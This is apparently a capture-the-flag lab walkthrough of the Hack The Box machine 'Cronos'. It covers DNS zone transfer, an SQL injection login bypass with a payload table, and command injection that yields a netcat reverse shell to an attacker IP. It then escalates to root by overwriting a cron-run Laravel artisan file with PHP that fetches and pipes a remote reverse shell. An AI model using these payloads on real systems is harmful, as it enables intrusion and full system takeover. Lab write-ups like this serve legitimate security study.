

## Overview

Cronos is an Ubuntu box running Apache hosting a few different websites. I was able to determine the dns zone that the box was hosting and perform a zone transfer which gave me information about which websites it was hosting. From there some additional enumeration uncovered an admin page that was vulnerable to SQLi, allowing me to bypass the login form. This allowed access to the "Net Tool v0.1" page which was exploited to execute operating system commands and create a reverse shell as www-data. Running LinEnum showed that a cron job was running as root and that an unprivileged user had access to write to a file called artisan. Leveraging write access to the file, I copied a command that created a reverse shell as user root.

## Enumeration

**Software**

* Ubuntu 16.04.2 LTS
* ISC BIND 9.10.3-P4-Ubuntu
* OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
* Apache httpd 2.4.18 ((Ubuntu))
* laravel 5.4.16 https://github.com/laravel/laravel - released May 14, 2017
* Sudo version 1.8.16                                                                                                                                                  
* mysql  Ver 14.14 Distrib 5.7.17

**Port Scan**

```
nmap -vv -sT -A -p- 10.10.10.13 -oN /mnt/data/boxes/cronos/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 53/tcp - dns
* 80/tcp - http

**Directory/File Brute Force**

```
gobuster dir -u http://cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html
```

* /index.php 
* /css
* /js

```
gobuster dir -u http://www.cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html
```

* /index.php 
* /css
* /js

```
gobuster dir -u http://admin.cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html
```

/index.php
/welcome.php
/logout.php
/config.php 
/session.php

**DNS Info**

Reverse DNS Lookup

```
dig a 13.10.10.10.in-addr.arpa @10.10.10.13
```


Zone Transfer

```
dig axfr 10.10.10.13 @1.2.3.4
```
* cronos.htb
* admin.cronos.htb
* www.cronos.htb

## Steps (User)

When I see port 53/dns open on the target I usually try a zone transfer. The first step was to determine the name of the zone which can be done by guessing (I see boxname.htb a lot) or by doing a reverse dns lookup. I chose the latter method and confirmed that zone cronos.htb was being hosted on the box. I was then able to use dig to do a zone transfer, showing all the records for the cronos.htb zone.


Using virtual hosts, different sites can be hosted on the same server. The server routes the request to the appropriate site based on the host header specified in the request. To facilitate this I updated /etc/hosts so I could browse to the site by name.

```
10.10.10.13     cronos cronos.htb admin.cronos.htb www.cronos.htb
```

admin.cronos.htb and www.cronos.htb pointed to the same site and all the links were to external websites. The source code also didn't show anything of use. The links to indicate that the site runs on laravel but I was unable to determine the version. I took note of this and moved on to admin.cronos.htb. 


Browsing to admin.cronos.htb showed a username and password form. The source code didn't disclose anything that would've help me log in so I started going through my list of common SQL injection tests.

User Name | Password | SQL Query
:---: | :---: | :---
| user | user | SELECT * FROM users WHERE name='user' and password='user' |
| user | ' or '1'='1 | SELECT * FROM users WHERE name='user' and password='' or '1'='1' |
| user | ' or 1='1  | SELECT * FROM users WHERE name='user' and password='' or '1'='1' |
| user | 1' or 1=1 -- - | SELECT * FROM users WHERE name='user' and password='' or 1=1-- -' |
| ' or '1'='1 | ' or '1'='1 | SELECT * FROM users WHERE name='' or '1'='1' and password='' or '1'='1' |
| ' or ' 1=1 | ' or ' 1=1 | SELECT * FROM users WHERE name='' or ' 1=1' and password='' or ' 1=1' |
| 1' or 1=1 -- - | blah | SELECT * FROM users WHERE name='1' or 1=1 -- -' and password='blah'|

Trying _1' or 1=1 -- -_ for the username worked and brought me to a page called "Net Tool v0.1" which allows user input to run traceroute and ping commands. As a test I pinged my machine.


This page is actually running system commands in the background and displaying the results. It turns out I can just paste a command directly into the text field to get a reverse shell as www-data. 


I set up a netcat listener (nc -lvnp 4200) and input the command.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4200 >/tmp/f 
```


## Steps (root/system)

I used a script called LinEnum.sh to do some additional enumeration and transferred it to the target box.

> [LinEnum](https://github.com/rebootuser/LinEnum) github repo

I copied LinEnum to my working directory and started a python http server in preperation to transfer the file.

```
cp ~/tools/LinEnum/LinEnum.sh le.sh
python3 -m http.server 80
```

On the target I used wget to download the file,  made the file executable, and ran it.

```
wget http://10.10.14.22/le.sh
chmod +x le.sh && ./le.sh
```

The LinEnum results showed something interesting under _[-] Crontab contents:_. The box name being "cronos" is a pretty big hint and is an indication I'm on the right path. The job ran a php file as root every minute.



```
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Looking at the permissions of the /var/www/laravel/artisan showed that user www-data can write to this file. This meant that I could write data to the artisan file and have it be executed as root.

I copied the php reverse shell to my working directory, updated it with my box's port/IP, and started a netcat listener on a new port (nc -lvnp 4201).

```
cp ~/tools/webshells/php/php-reverse-shell.php rshell.php
nc -lvnp 4201
```

With my python http server still running, I echo'd a php command to the artisan file. The command downloaded rshell.php from my box (the reverse shell) and executed it.
```
echo "<?php system('curl http://10.10.14.22/rshell.php | php') ?>" > /var/www/laravel/artisan
```
Once executed on the target I received a callback and shell as root.


